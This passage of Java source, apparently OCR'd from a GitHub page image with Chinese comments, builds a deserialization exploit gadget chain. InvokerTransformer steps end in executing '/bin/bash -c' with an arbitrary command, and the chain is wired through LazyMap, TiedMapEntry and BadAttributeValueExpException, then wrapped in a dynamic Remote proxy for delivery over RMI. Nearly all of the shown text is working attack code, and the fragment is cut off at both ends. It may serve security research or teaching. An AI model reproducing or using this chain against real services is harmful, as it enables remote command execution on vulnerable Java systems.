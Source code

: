 ```java
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer     tchain      = new ChainedTransformer( tarray );
        Map             normalMap   = new HashMap();
        Map             lazyMap     = LazyMap.decorate( normalMap, tchain );
        TiedMapEntry    tme         = new TiedMapEntry( lazyMap, null );
        BadAttributeValueExpException
                        bave        = new BadAttributeValueExpException( null );
        Field           f           = bave.getClass().getDeclaredField( "val" );
        f.setAccessible( true );
        f.set( bave, tme );
        /*
         * 前面在准备待序列化数据，后面是一种另类的序列化过程
         */
        String          name        = "anything";
        GeneralInvocationHandler3
                        ih          = new GeneralInvocationHandler3( bave );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/rmi/Remote.html
         *
         * Remote是个接口，因此可以使用动态代理机制。参看:
         *
         * http://scz.617.cn/misc/201911291425.txt
         *
         * 2.2) TicketServiceClient1.java
         */
        Remote          remoteProxy = ( Remote )Proxy.newProxyInstance
        (
            Remote.class.getClassLoader(),
            new  Class[] { Remote.class },
            ih
        );
```